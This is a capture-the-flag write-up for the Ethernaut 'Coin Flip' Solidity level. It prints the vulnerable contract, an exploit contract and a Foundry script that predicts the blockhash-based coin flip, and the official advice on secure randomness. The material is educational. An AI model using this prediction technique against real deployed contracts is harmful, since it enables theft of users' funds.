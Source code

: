 # Level 3 - Coin Flip ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/3" %}

### Level Setup

{% hint style="info" %}
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/CoinFlip.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
{% endcode %}

### Exploit

This exploit is possible because the coinflip isn't random but deterministic. By copying the same logic that's used to determine the result and executing it in the same block just before guessing, you can guess correctly every time.

1. Run the same calculation and use the result to call the CoinFlip contract already deployed.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level3.sol" %}

{% code title="src/Level3.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

// ================================================================
// │                      LEVEL 3 - COIN FLIP                     │
// ================================================================
contract CoinFlipGuess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function flip(address _targetContractAddress) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return ICoinFlip(_targetContractAddress).flip(side);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level3.s.sol" %}

{% code title="script/Level3.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {CoinFlipGuess} from "../src/Level3.sol";

interface ICoinFlip {
    function consecutiveWins() external returns (uint256);
}

// ================================================================
// │                      LEVEL 3 - COIN FLIP                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        ICoinFlip targetContract = ICoinFlip(targetContractAddress);

        if (targetContract.consecutiveWins() < 10) {
            vm.startBroadcast();

            CoinFlipGuess coinFlipGuess = new CoinFlipGuess();
            coinFlipGuess.flip(targetContractAddress);

            vm.stopBroadcast();
        } else {
            revert("Already won 10 times");
        }

        console.log("consecutiveWins: %s", targetContract.consecutiveWins());
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Notes

* The real challenge is getting the script to run 10 times.
* This was hard to do in foundry with a real blockchian, but would have been easy to test on anvil simply by advancing the block by one then calling it again.

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_3_Coin-Flip.md" %}
